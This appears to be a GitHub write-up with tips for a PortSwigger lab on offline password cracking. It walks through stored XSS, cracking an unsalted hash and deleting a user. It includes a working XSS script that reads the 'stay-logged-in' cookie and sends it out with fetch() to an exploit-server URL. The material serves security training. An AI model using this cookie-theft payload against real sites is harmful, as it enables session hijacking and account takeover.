

# Lab: Offline password cracking

- [Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

## Tips

I'll try to give some tips that can be useful in the solution. The first is, obviously, be curious. Try to explore what you can do with XSS vulnerabilities. If you're new to this kind of things like me, try to make the browser to run some `alert` when you enter a page, just to see if you can show the cookie in an alert box. To retrieve the cookie, I recommend you to try to use the [`CookieStore`](https://developer.mozilla.org/en-US/docs/Web/API/CookieStore) instead of [`Document.cookie`](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) since it can give you more directly the cookie value without much string manipulation.

After you get the cookie, try to play a little with the `Exploit Server`. For example, try to answer questions such as: how can you make requests, how the requests are logged (see the `Access log`!) and how the server works. Find the answer to those questions before proceeding to the next step.

Now, with a good understanding on how the `Exploit Server` works, it's time to make a request to it with the cookie you gathered! Try to that and see if you can it through the `Exploit Server`!

This is how I could get it to work! See only if you don't know what to do!
<details>
<summary>Click to expand!</summary>
  
```js
<script>
    cookieStore.get("stay-logged-in").then(cookie =>
        fetch(`https://exploit-aca11f671fb9bf51c007053a01600054.web-security-academy.net/${cookie.value}`)
    )
</script>
```
</details>

Well, getting the cookie is one thing, the other is to understand the contents of it! If you took others labs, you'll easily see the pattern. Otherwise, try to answer the question: what known hash algorithms are vulnerable?

Now that you know what is the hash algorithm used in the cookie, you can start to use a passwords dictionary to see if you can find which one match the hashed password you found!

Of course, there's another easy way!
<details>
<summary>Click to expand!</summary>

Since we're talking about a hashed password without any salt, we can google it to see if we can find the original string.
  
</details>

Now that you found the password, log in with it and delete `carlos` account to finally see:

